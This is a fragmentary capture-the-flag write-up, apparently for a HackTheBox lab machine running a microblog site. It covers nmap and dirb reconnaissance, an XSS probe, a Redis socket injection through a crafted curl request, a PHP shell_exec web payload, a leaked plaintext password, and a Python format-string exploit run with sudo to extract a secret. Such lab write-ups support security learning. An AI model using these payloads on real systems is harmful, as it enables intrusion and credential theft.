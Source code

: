 ```
└─$ nmap 10.10.11.213 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 03:28 EDT
Nmap scan report for 10.10.11.213
Host is up (0.65s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

```

└─$ dirb http://app.microblog.htb

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Jul  5 03:31:06 2023
URL_BASE: http://app.microblog.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://app.microblog.htb/ ----
==> DIRECTORY: http://app.microblog.htb/dashboard/                                                                
+ http://app.microblog.htb/index.php (CODE:200|SIZE:3976)                                                         
==> DIRECTORY: http://app.microblog.htb/login/                                                                    
==> DIRECTORY: http://app.microblog.htb/logout/                                                                   
==> DIRECTORY: http://app.microblog.htb/register/                                                                 
                                                                                                                  
---- Entering directory: http://app.microblog.htb/dashboard/ ----
+ http://app.microblog.htb/dashboard/index.php (CODE:302|SIZE:0)                                                  
                                                                                                                  
---- Entering directory: http://app.microblog.htb/login/ ----
+ http://app.microblog.htb/login/index.php (CODE:200|SIZE:2475)   

### gobuster subdomain enumeration

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u app.microblog.htb -t 50 --append-domain
```

no subdomain found

![](20230717054909.png)

at port 3000 we have

![](20230717065926.png)

http://microblog.htb:3000/cooper/microblog

we have the websiet source code

and at 80 we have

![](20230717070055.png)

we create a subdomain

![](20230717070202.png)

subomain has xss

![](20230717070501.png)

<alert>console.log(document.cookie)</alert>

username=tettng728edelr80248dvidlk2

also Able to do LFI

![](20230717071601.png)

curl -X HSET "http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:hyper%20pro%20true%20a/b"

YOU BECOME PRO THEN RUN lfi AGAIN

ntrusion

The server works through REDIS, in order to convert our account into Pro we must point to the socket and in HSET format. HSET basically what you do change the values ​​of the specified fields.

❯ curl -X HSET "http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:hyper%20pro%20true%20a/b"

Once we are a Pro user , we send a request through Burpsuite and ping our attacker's machine.

id=/var/www/microblog/hyper/uploads/rev.php&txt=<%3fphp+echo+shell_exec("ping+-c+1+10.10.14.119")%3b%3f>

redis /run/redis/redis.sock> HGETALL cooper.dooper
 1) "username"
 2) "cooper.dooper"
 3) "password"
 4) "zooperdoopercooper"
 5) "first-name"
 6) "Cooper"
 7) "last-name"
 8) "Dooper"
 9) "pro"
10) "false"

![](20230717073057.png)

```
ooper@format:~$ sudo -l
[sudo] password for cooper: 
Matching Defaults entries for cooper on format:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cooper may run the following commands on format:
    (root) /usr/bin/license

```

f we read the file we can perform a Python Format String Vulnerabilities . We connect to redis and get the password in plain text.

redis /var/run/redis/redis.sock> HMSET test first-name "{license.__init__.__globals__[secret_encoded]}" last-name test username test
OK
redis /var/run/redis/redis.sock> exit
cooper@format:~$ sudo /usr/bin/license -p test

Plaintext license key:
------------------------------------------------------
microblogtestAv*pd5bU$#)!Ef@un(7nX!vkA;)|AD:A}e/DET{tb'unCR4ckaBL3Pa$$w0rd'test

Encrypted license key (distribute to customer):
------------------------------------------------------
gAAAAABkZBqEo0E7jcv6FFBjGKoCi238MGNfhobcAFoqmkKXW0WJD0Sn1JuKMymKAEfTdV2Pz-zYlVuKrKgDZJp7ft-R4b


![](20230717073346.png)




